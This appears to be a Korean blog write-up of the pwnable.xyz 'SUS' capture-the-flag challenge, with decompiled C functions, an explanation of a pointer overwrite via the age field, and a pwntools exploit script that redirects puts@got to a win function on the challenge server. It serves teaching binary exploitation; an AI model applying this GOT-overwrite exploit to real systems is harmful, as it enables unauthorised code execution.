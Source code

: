 ```yaml
---
title: "[pwnable.xyz]SUS"
date: 2020-1-28
ctf: Pwnable.xyz
layout: post
---
```


64비트 바이너리고 PIE빼고 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

create_user함수에서는 s라는 변수를 동적할당해준 후 s 변수에 이름을 입력받아 cur이라는 전역변수에 주소를 저장한다. 전역변수에는 아마 heap주소가 들어갈거다.

```c
unsigned __int64 create_user()
{
  void *s; // [rsp+0h] [rbp-1060h]
  unsigned __int64 v2; // [rsp+1058h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( !s )
  {
    s = malloc(32uLL);
    memset(s, 0, 32uLL);
  }
  printf("Name: ", s);
  read(0, s, 32uLL);
  printf("Age: ", s, s);
  read_int32();
  cur = &s;
  return __readfsqword(0x28u) ^ v2;
}
```

여기는 출력해주는 곳이다.

```c
int print_user()
{
  int result; // eax

  result = cur;
  if ( cur )
  {
    printf("User: %s\n", *cur);
    result = printf("Age: %d\n", *(cur + 72));
  }
  return result;
}
```

Name과 Age를수정할 수 있다.

```c
unsigned __int64 edit_usr()
{
  __int64 v0; // rsi
  __int64 v1; // rbx
  unsigned __int64 v3; // [rsp+1018h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  if ( cur )
  {
    printf("Name: ");
    v0 = *cur;
    read(0, *cur, 32uLL);
    printf("Age: ", v0);
    v1 = cur;
    *(v1 + 72) = read_int32();
  }
  return __readfsqword(0x28u) ^ v3;
}
```

cur에는 포인터로 heap주소가 저장된다. 근데 age를 입력할 때 16개 이상 입력받게되면 이 포인터를 덮을 수 있다. 

그래서 age 입력받을 때 heap을 가르키는 포인터를 puts@got로 바꾸고 name을 edit할때 cur을 참조하는데 우리는 *cur에 puts@got로 덮어놨으니까 name입력받을 때 win의 주소로 넣으면 puts가 실행되면 win함수가 실행될거다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote("svc.pwnable.xyz", 30011)
win = e.symbols['win']
cur = 0x0000000000602268
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def create_user(name,age):
	sa('> ','1')
	sa(': ',name)
	sa(': ',str(age))

def print_user():
	sa('> ','2')

def edit_user(name,age):
	sa('> ','3')
	sa(': ',name)
	sa(': ',str(age))

create_user('A', 1)
edit_user('B', 'C' * 16 + p64(e.got['puts']))
edit_user(p64(win), 1)

p.interactive()
```

